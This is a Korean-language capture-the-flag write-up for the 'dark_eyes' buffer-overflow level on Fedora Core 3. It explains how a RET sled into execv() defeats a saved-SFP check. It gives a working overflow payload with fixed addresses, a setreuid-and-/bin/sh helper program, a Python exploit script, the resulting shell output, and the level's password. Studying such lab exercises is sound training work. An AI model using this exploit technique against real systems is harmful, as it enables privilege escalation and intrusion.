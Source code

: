 ```yaml
---
title: "[FC3]Level2. dark_eyes"
tags: [Wargame, Fedora Catle 3, Write-up]
author: eli_ez3r
key: 20180902
modify_date: 2018-09-02
article_header:
  type: cover
  image:
    src: 
---
```


[RET Sleding](#){:.button.button--outline-success.button--pill}

```c
/*
  The Lord of the BOF : The Fellowship of the BOF
  - dark_eyes
  - Local BOF on Fedora Core 3
  - hint : RET sleding
*/

int main(int argc, char *argv[])
{
  char buffer[256];
  char saved_sfp[4];

  if(argc < 2){
    printf("argv error\n");
    exit(0);
  }

  // save sfp
  memcpy(saved_sfp, buffer+264, 4);

  // overflow!!
  strcpy(buffer, argv[1]);

  // restore sfp
  memcpy(buffer+264, saved_sfp, 4);

  printf("%s\n", buffer);
}
```

Cannary 보호기법을 흉내낸 코드 같다. 

sfp에 담겨있는 값을 saved_sfp에 저장해두고 strcpy실행 이후 sfp를 다시 복원시킨다.

따라서 앞에 문제에서 사용했던 FakeEBP는 사용 불가능하다.



RET Sleding이라는 힌트가 있어서 EBP 아래부분을 살펴보았다.

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807162316255.png" width="500px">

EBP+28 부분에 NULL값이 존재하였다. 이는 매우 중요한 값으로 사용 가능하다.

strcpy함수로 NULL값을 넘겨주는 것은 불가능 하기 때문에, 스택상에 NULL값을 이용하면 된다.

execv()함수를 이용할 때 인자가 끝났다는 표시를 NULL값으로 확인하기 때문에 NULL 앞에 값은 execv의 인자로 사용하면 된다.



<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807171320581.png" width="600px">

위 사진처럼 RET에 RET명령어를 3개를 넣고, execv()함수 주소를 넣으면 execv()+8부분을 인자값으로 실행한다.



그러면 0x83eff4부분에 무슨 값이 들어 있는지 확인해보자.

```sh
(gdb) x/x 0x83eff4
0x83eff4 <svcauthsw+712>: 0x0083ed3c
```

0x83ed3c라는 값이 들어있다.

그러면 이제 iron_grem문제처럼 심볼릭 링크를 이용하여 파일 이름을 83ed3c로 만들고 진행하면 될 것 같다.



페이로드 준비물

- ret가젯 주소
- execv함수 주소 

```sh
[iron_golem@Fedora_1stFloor ~]$ objdump -S dark_eyes | grep ret
 80482fe: c3                    ret
 80483a4: c3                    ret
 80483d9: c3                    ret
------ 생략 ------
```

dark_eyes 바이너리 안에 ret명령어 가젯들을 보여준다. 이중 하나 고르자.



```sh
(gdb) p execv
$1 = {<text variable, no debug info>} 0x7a55d0 <execv>
```

execv 함수도 gdb상에서 구해주자.



- ret가젯 주소 : 0x80482fe
- execv함수 주소 : 0x7a55d0



이제 권한 상승하여 쉘을 띄우는 프로그램을 만들자.

```c
[iron_golem@Fedora_1stFloor ~]$ cat tmp.c
#include<stdio.h>

int main(){
  setreuid(geteuid(), geteuid());
  system("/bin/sh");
  return 0;
}
```



```sh
[iron_golem@Fedora_1stFloor ~]$ gcc -o $(python -c 'print "\x3c\xed\x83"') tmp.c
```

ln -s 를 이용하여 하는 방법도 있지만, gcc로 컴파일 할때 파일 이름 자체를 바꾸는 방법을 사용해 봤다.

> ln -s 과정을 생략 할 수 있다.



```sh
[iron_golem@Fedora_1stFloor ~]$ ./dark_eyes `python -c 'print "A"*268+"\xfe\x82\x04\x08"*3+"\xd0\x55\x7a\x00"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�s������Uz
sh-3.00$ id
uid=502(dark_eyes) gid=501(iron_golem) groups=501(iron_golem) context=user_u:system_r:unconfined_t
sh-3.00$ my-pass
euid = 502
because of you
```

payload : `| buffer(264)+dummy(4) | ret Gadget*3 | execv() |` 



ex도 짜보자.

```python
import struct
import os

p32 = lambda x : struct.pack("<I", x)

target = "/home/iron_golem/dark_eyes"

ret = 0x80482fe
execv = 0x7a55d0

payload  = "A"*264  # buffer + dummy
payload += "B"*4  # SFP
payload += p32(ret)*3 # ret * 3
payload += p32(execv) # execv

os.execv(target, (target, payload[:-1]))
```



**dark_eyes / because of you**